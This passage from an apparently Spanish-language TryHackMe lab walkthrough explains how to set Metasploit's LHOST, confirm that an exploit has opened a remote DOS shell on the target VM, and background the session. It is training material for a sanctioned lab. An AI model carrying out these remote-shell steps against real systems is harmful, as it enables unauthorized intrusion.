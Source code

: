     ```bash
    set LHOST <tu_IP_tun0>
    ```

🔹 Si estás usando el **AttackBox de TryHackMe**:

- No necesitas cambiar el valor de `LHOST`, ya que el entorno ya está configurado automáticamente para funcionar dentro de la red de TryHackMe.

---
#### 6. Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target.

> **Traducción de la pregunta:**  
> Confirma que el exploit se haya ejecutado correctamente. Es posible que tengas que presionar **Enter** para que aparezca el shell de DOS. Luego, envía esta shell a segundo plano con **Ctrl + Z**. Si falla, intenta ejecutar el exploit nuevamente antes de reiniciar la máquina virtual de destino.

---

##### Objetivo de la pregunta

Verificar que la explotación fue exitosa y que se ha obtenido una **shell remota** en el sistema víctima, permitiendo interactuar con él a través de comandos. Luego, se debe **enviar esta shell a segundo plano** para continuar trabajando con Metasploit.

---

##### ¿Qué sucede si el exploit funciona?

- Si el exploit se ejecuta con éxito, verás que Metasploit te muestra un mensaje como:
    
    ```
    Command shell session 1 opened [...]
    ```
    
- Si no aparece nada inmediatamente, presiona **Enter** una o dos veces para forzar la aparición del símbolo del sistema (prompt), típico en una shell de DOS (ejemplo: `C:\Windows\System32>`).

---

##### Enviar la sesión a segundo plano

Una vez confirmada la shell, usa la combinación de teclas:

```bash
CTRL + Z
```

Metasploit te preguntará si deseas enviar la sesión al background. Escribe:

```bash
y
```
